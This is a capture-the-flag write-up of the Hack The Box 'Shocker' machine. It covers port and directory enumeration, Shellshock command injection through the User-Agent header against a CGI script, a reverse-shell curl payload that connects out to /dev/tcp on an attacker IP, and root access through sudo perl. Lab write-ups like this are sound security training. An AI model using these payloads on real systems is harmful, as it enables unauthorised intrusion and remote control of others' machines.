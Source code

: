 # Shocker

![image](https://user-images.githubusercontent.com/5285547/124322481-6e1e4200-db77-11eb-9e65-04c366f56e6c.png)

# Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Running dirb tool 
```
dirb http://10.10.10.56/  

http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                                                  
http://10.10.10.56/index.html (CODE:200|SIZE:137) 
```

Noting the name of the box, I can tell this is going to be a shellshock vunerability with the cgi-bin directory its a given! 

- /cgi-bin/
```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w  /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt    -t 30 -x .txt,.html,.php,.bk,.gz,.png,.sh -s 403,200

/user.sh              (Status: 200) [Size: 118]
```

## ShellShock

- Basic usage (Exploit)

ExploitDB paper: https://www.exploit-db.com/docs/48112

```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls"
```
```
user.sh
```

- Lets get the user of the box in /home

```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls /home"
```
```
shelly
```

We can get the user flag now then work on getting on the box properly via a reverse shell 

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/cat /home/shelly/user.txt"
```

- Flag
```
beb558c0c6{REDACTED}a1ce663157
```

## Reverse Shell

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/sh -i >& /dev/tcp/10.10.14.184/9999 0>&1"
```
```
stty raw -echo;fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

- Looking around the system you quickly find sudo -l has a good esculation route

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

## Root

- GTFOBins  

![image](https://user-images.githubusercontent.com/5285547/124326697-c4db4a00-db7e-11eb-9ce2-0f01ae33dc46.png)


```
sudo perl -e 'exec "/bin/sh";'
```

- Now we are root and can get the last flag.txt in /root

![image](https://user-images.githubusercontent.com/5285547/124326767-eccaad80-db7e-11eb-8b39-0bd25d522af8.png)


- Flag
```
f011efb96{REDACTED}a7f7284ceea
```

